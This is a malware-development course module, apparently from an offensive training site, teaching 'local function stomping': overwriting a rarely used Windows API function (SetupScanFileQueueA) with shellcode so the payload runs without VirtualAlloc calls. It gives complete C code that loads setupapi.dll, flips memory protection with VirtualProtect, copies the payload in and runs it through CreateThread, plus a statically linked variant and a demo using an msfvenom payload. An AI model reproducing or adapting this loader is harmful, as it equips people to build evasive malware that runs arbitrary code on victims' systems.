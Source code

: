 44. Local Function Stomping Injection# [**44. Local Function Stomping Injection**](https://maldevacademy.com/modules/44)

## **Local Function Stomping Injection**

### **Introduction**

The previously demonstrated mapping injection modules were used to avoid the usage of `VirtualAlloc/Ex` WinAPI calls. This module will demonstrate another method that avoids the usage of these WinAPIs.

### **Function Stomping**

The term "stomping" refers to the act of overwriting or replacing the memory of a function or other data structure in a program with different data.

Function stomping is a technique where the original function's bytes are replaced with new code resulting in the function being replaced or no longer working as intended. Instead, the function will execute different logic. To implement this, a sacrificial function address is required to be stomped.

### **Choosing a Target Function**

Retrieving the address of a function locally is simple, but which function is being retrieved is the main concern with this technique. Overwriting a commonly used function can result in the uncontrolled execution of the payload or the process can crash. Therefore it should be clear that targeting functions exported from `ntdll.dll`, `kernel32.dll` and `kernelbase.dll` is risky. Instead, less commonly used functions should be targeted such as `MessageBox` since it will be rarely used by the operating system or other applications.

### **Using The Stomped Function**

When a target function's bytes are replaced with that of the payload's, the function cannot be used anymore unless it is specifically for payload execution. For example, if the target function is `MessageBoxA` then the binary should only call `MessageBoxA` once, which is when the payload will be executed.

### **Local Function Stomping Code**

For the code demonstration below, the target function is [SetupScanFileQueueA](https://learn.microsoft.com/en-us/windows/win32/api/setupapi/nf-setupapi-setupscanfilequeuea). This is a completely random function but is unlikely to cause any problems if it's overwritten. Based on Microsoft's documentation, the function is exported from `Setupapi.dll`. Therefore the first step would be to load `Setupapi.dll` into the local process memory using `LoadLibraryA` and then retrieve the function's address using `GetProcAddress`.

The next step would be to stomp the function and replace it with the payload. Ensure the function can be overwritten by marking its memory region as readable and writable using `VirtualProtect`. Next, the payload is written into the function's address and finally, `VirtualProtect` is used again to mark the region as executable (`RX` or `RWX`).


```
#define		SACRIFICIAL_DLL          "setupapi.dll"#define		SACRIFICIAL_FUNC         "SetupScanFileQueueA"// ...

BOOL WritePayload(IN PVOID pAddress, IN PBYTE pPayload, IN SIZE_T sPayloadSize) {

	DWORD	dwOldProtection		= NULL;


	if (!VirtualProtect(pAddress, sPayloadSize, PAGE_READWRITE, &dwOldProtection)){
		printf("[!] VirtualProtect [RW] Failed With Error : %d \n", GetLastError());
		return FALSE;
	}

	memcpy(pAddress, pPayload, sPayloadSize);

	if (!VirtualProtect(pAddress, sPayloadSize, PAGE_EXECUTE_READWRITE, &dwOldProtection)) {
		printf("[!] VirtualProtect [RWX] Failed With Error : %d \n", GetLastError());
		return FALSE;
	}

	return TRUE;
}



int main() {

	PVOID		pAddress	= NULL;
	HMODULE		hModule		= NULL;
	HANDLE		hThread		= NULL;


	printf("[#] Press <Enter> To Load \"%s\" ... ", SACRIFICIAL_DLL);
	getchar();

	printf("[i] Loading ... ");
	hModule = LoadLibraryA(SACRIFICIAL_DLL);
	if (hModule == NULL){
		printf("[!] LoadLibraryA Failed With Error : %d \n", GetLastError());
		return -1;
	}
	printf("[+] DONE \n");



	pAddress = GetProcAddress(hModule, SACRIFICIAL_FUNC);
	if (pAddress == NULL){
		printf("[!] GetProcAddress Failed With Error : %d \n", GetLastError());
		return -1;
	}


	printf("[+] Address Of \"%s\" : 0x%p \n", SACRIFICIAL_FUNC, pAddress);


	printf("[#] Press <Enter> To Write Payload ... ");
	getchar();
	printf("[i] Writing ... ");
	if (!WritePayload(pAddress, Payload, sizeof(Payload))) {
		return -1;
	}
	printf("[+] DONE \n");



	printf("[#] Press <Enter> To Run The Payload ... ");
	getchar();

	hThread = CreateThread(NULL, NULL, pAddress, NULL, NULL, NULL);
	if (hThread != NULL)
		WaitForSingleObject(hThread, INFINITE);

	printf("[#] Press <Enter> To Quit ... ");
	getchar();

	return 0;

}


```
### **Inserting DLL Into Binary**

Instead of loading the DLL using `LoadLibrary` and then retrieving the target function's address with `GetProcAddress`, it's possible to statically link the DLL into the binary. Using the pragma comment compiler directive allows for this, as shown below.


```
#pragma comment (lib, "Setupapi.lib") // Adding "setupapi.dll" to the Import Address Table
```
The target function can then be simply retrieved using the address-of-operator (e.g. `&SetupScanFileQueueA`). The code snippet below updates the previous code snippet to use the pragma comment directive.


```
#pragma comment (lib, "Setupapi.lib") // Adding "setupapi.dll" to the Import Address Table// ...


int main() {

	HANDLE		hThread			= NULL;


	printf("[+] Address Of \"SetupScanFileQueueA\" : 0x%p \n", &SetupScanFileQueueA);


	printf("[#] Press <Enter> To Write Payload ... ");
	getchar();
	printf("[i] Writing ... ");
	if (!WritePayload(&SetupScanFileQueueA, Payload, sizeof(Payload))) { // Using the address-of operator
		return -1;
	}
	printf("[+] DONE \n");



	printf("[#] Press <Enter> To Run The Payload ... ");
	getchar();

	hThread = CreateThread(NULL, NULL, SetupScanFileQueueA, NULL, NULL, NULL);
	if (hThread != NULL)
		WaitForSingleObject(hThread, INFINITE);

	printf("[#] Press <Enter> To Quit ... ");
	getchar();

	return 0;

}


```
### **Demo**

Retrieving `SetupScanFileQueueA`'s address.




[![](44%20Local%20Function%20Stomping%20Injection%20c935dd1a71c845059628b12d6c3cdcb8/stomp-109438900-53f68143-4143-4be4-978c-4c38e9b4f0d4.png)](44%20Local%20Function%20Stomping%20Injection%20c935dd1a71c845059628b12d6c3cdcb8/stomp-109438900-53f68143-4143-4be4-978c-4c38e9b4f0d4.png)The original bytes of the `SetupScanFileQueueA` function.

[![](44%20Local%20Function%20Stomping%20Injection%20c935dd1a71c845059628b12d6c3cdcb8/stomp-209438901-b436065b-17a9-43b2-86a9-da708329b4c7.png)](44%20Local%20Function%20Stomping%20Injection%20c935dd1a71c845059628b12d6c3cdcb8/stomp-209438901-b436065b-17a9-43b2-86a9-da708329b4c7.png)Replacing the function's bytes with the Msfvenom calc payload.

[![](44%20Local%20Function%20Stomping%20Injection%20c935dd1a71c845059628b12d6c3cdcb8/stomp-309438902-a96c9c50-7ac1-42f9-918f-992a2ef749d6.png)](44%20Local%20Function%20Stomping%20Injection%20c935dd1a71c845059628b12d6c3cdcb8/stomp-309438902-a96c9c50-7ac1-42f9-918f-992a2ef749d6.png)Running the payload.

[![](44%20Local%20Function%20Stomping%20Injection%20c935dd1a71c845059628b12d6c3cdcb8/stomp-409438904-bfacfa89-e6cb-4903-9cd1-7a55c9b66697.png)](44%20Local%20Function%20Stomping%20Injection%20c935dd1a71c845059628b12d6c3cdcb8/stomp-409438904-bfacfa89-e6cb-4903-9cd1-7a55c9b66697.png)